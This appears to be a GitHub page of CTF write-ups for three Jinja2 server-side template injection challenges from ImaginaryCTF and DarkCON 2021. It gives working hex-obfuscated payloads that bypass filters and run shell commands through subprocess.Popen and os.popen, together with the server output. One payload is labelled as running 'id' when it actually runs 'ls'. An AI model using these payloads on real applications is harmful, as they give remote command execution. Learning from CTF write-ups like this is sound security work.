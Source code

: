 - ## Imaginary ctf 2021(Build-a-website):
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- ## Imaginary ctf 2021(Sinking calculator): 
![image](https://github.com/poorvi1910/Web/assets/146640913/f78f996d-601d-45c4-a6dc-35fb80e43e82)
In this code, the input length is limited to 80 chars and output is only printed if it has numbers or minus.
Payload: ```calc?query=config.class.init.globals[%27os%27].popen(%27od%20-b%20-An%20fla*%27).read()``` <br>
translates to ```config.class.init.globals['os'].popen('od -b -An fla*').read()```. The command ```od -b -An fla*``` is used to display file contents in octal format, without displaying the filename (-An)
  - od: This is the "octal dump" command, which is used to display file contents in different formats (octal, hexadecimal, decimal, ASCII, etc.).
  - b: This option tells od to display the output in octal bytes. Each byte in the file(s) will be displayed as a three-digit octal number.
  - An: This option tells od to suppress the default output of file offsets. Normally, od prefixes each line of output with the byte offset of that line within the file. -An removes these offsets from the output.
  - fla*: This is a shell glob pattern. It matches any files in the current directory whose names start with "fla". For example, it could match files like "flag.txt", "flag1.txt", etc.<br>
The ouput gives a string of numbers which when converted from octal to ascii gives the flag.

- ## DarkCON CTF 2021(DMM):

The following payload will return all subclasses.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}```

The following payload will return the output of the id command.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```

```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
Listing the directory content with the following payload.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
And printing flag.txt file.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}&#39; is 404 Not Found.</h1>
</div>
```

- ##
